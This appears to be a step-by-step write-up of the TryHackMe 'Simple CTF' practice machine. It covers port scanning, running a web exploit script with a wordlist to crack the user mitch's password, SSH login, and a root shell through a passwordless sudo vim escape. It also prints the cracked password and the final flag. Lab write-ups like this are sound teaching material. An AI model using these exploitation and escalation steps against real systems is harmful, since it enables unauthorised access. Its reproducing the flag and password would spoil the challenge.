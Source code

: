 # Simple CTF

## Overview

* **Difficulty:** Easy
* **Category:** Web Exploitation / Password Cracking / Privilege Escalation
* **Skills Practiced:** Port scanning, FTP enumeration, web exploitation, hash cracking, privilege escalation

## Tools & Techniques

* `nmap` - for port and service scanning
* Python virtual environment - for isolated exploit environment
* Exploit script (`exploit.py`) - for web application exploitation
* `rockyou.txt` - for password cracking
* `ssh` - for remote access
* `sudo` and `vim` - for privilege escalation

## Walkthrough (Step-by-Step)

### 1. Deployment & Setup

* Connect to TryHackMe with OpenVPN or use the AttackBox
* Deploy the **Simple CTF** machine

### 2. Reconnaissance

**Nmap Scan:**

```bash
nmap -p- <target-ip>
```

**Findings:**
* Port 21 - FTP
* Port 80 - HTTP
* Port 2222 - SSH (non-standard port)

### 3. Web Application Exploitation

1. **Prepare Environment:**

	```bash
	python -m venv venv
	source venv/bin/activate
	pip install -r requirements.txt
	```

2. **Run Exploit:**

	```bash
	python3 exploit.py -u http://<target-ip>/simple -c -w /usr/share/wordlists/rockyou.txt
	```

	**Output:**
	```
	[+] Salt for password found: 1dac0d92e9fa6bb2
	[+] Username found: mitch
	[+] Email found: admin@admin.com
	[+] Password found: 0c01f4468bd75d7a84c7eb73846e8d96
	[+] Password cracked: secret
	```

### 4. Initial Access

**SSH Connection:**

```bash
ssh mitch@<target-ip>
```
* Password: `secret`

### 5. Privilege Escalation

1. **Enumerate Sudo Rights:**

	```bash
	sudo -l
	```

**Finding:** User `mitch` can run `/usr/bin/vim` as root without password

2. **Exploit Vim for Root Shell:**

	```bash
	sudo vim -c ':!/bin/sh'
	```

3. **Get Root Flag:**

	```bash
	cd /root
	cat root.txt
	```

	**Flag:** `W3ll d0n3. You made it!`
